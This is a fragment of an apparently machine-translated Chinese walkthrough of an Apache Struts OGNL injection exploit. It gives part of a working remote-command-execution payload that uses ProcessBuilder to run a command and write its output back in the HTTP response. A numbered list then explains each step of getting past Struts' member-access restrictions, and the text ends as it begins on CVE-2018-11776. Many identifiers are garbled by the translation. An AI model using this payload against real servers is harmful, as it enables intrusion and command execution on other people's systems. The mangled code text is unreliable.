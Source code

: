 ```
(#cmd='/usr/bin/touch /tmp/pwned').(#iswin=@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).

(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).

(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).

(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).

(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```

1.  # _ = '**multipart/form-data '**–需要一个随机变量，因为`multipart/form-data`字符串在我们的有效负载中是触发漏洞所必需的

2.  **#dm=@ognl。OgnlContext@DEFAULT *成员*访问**–使用 DefaultMemberAccess 的值创建 dm 变量(比 SecurityMemberAccess 更宽松)

3.  **# *memberAccess？(#*member access = # DM)**–如果`_memberAccess`类存在，我们用来自`dm`变量的`DefaultMemberAccess`替换它

4.  **# container = # context[' com . open symphony . xwork 2 . action context . container ']**-从上下文中获取容器；以后有必要

5.  **# ognlUtil = # container . getinstance(@ com . open symphony . xwork 2 . ognl . ognlUtil @ class)**–并使用它获取 ognlUtil 类的实例(我们不能直接这样做，因为它被列入了黑名单–完整列表在。/src/core/src/main/resources/struts-default . XML)

6.  **# ognlutil . getexcludedpackagenames()。clear()**–清除排除的包名

7.  **# ognlutil . getexcludedclass()。clear()**–清除排除的类

8.  **# context . set member access(# DM)**–将`DefaultMemberAccess`设置为当前上下文

9.  **# cmd = '/usr/bin/touch/tmp/pwned '**-定义我们要执行的命令

10.  **# iswin =(@ Java . lang . system @ getProperty(' OS . name ')。toLowerCase()。包含(' win ')**–如果应用程序在 Windows 上运行，则保存在变量中(跨平台利用)

11.  **#cmds=(#iswin？{'cmd.exe '，'/c '，#cmd}:{'/bin/bash '，'-c '，# cmd })**-指定如何根据操作系统(cmd.exe 或 bash)执行命令

12.  **# p = new Java . lang . process builder(# cmds)**–使用`ProcessBuilder`类运行命令(参数)

13.  **# p . redirect errorstream(true)**–查看命令的错误输出可能也很有用

14.  **# process = # p . start()**–执行命令

15.  **# ROS =(@ org . Apache . struts 2 . servletactioncontext @ getResponse()。getOutputStream())**–获取响应的输出流，以将数据发送回用户

16.  **@ org . Apache . commons . io . iou tils @ copy(# process . getinputstream()，# ROS)**–获取执行命令的输出

17.  **# ROS . flush()**–flush 以确保我们发送了所有数据

剥削 CVE-2018-11776 有些不同:

1.  **# _ = # attr[' struts . valueStack ']**–使用 *attr* 获取 value stack

